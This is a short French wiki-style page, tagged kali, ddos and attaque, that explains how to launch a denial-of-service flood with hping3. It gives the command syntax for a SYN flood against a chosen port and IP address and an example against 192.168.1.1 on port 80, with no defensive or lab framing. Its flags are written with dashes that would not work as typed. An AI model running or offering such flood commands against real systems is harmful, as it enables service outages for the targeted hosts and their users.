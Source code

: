```yaml
---
title: Faire une attaque DDOS avec Hping3
description: 
published: true
date: 2022-03-25T11:35:18.281Z
tags: kali, ddos, attaque
editor: markdown
dateCreated: 2022-03-25T11:35:18.281Z
---
```


# Utilisation de Hping3
Hping3 fait une attaque par innondation

la syntaxe de la commande est:
Hping3 –flood –p **[port à attaquer]** -S **[adresse IP de la cible]** 

# Exemple
> Hping3 –flood -S 192.168.1.1 –p 80
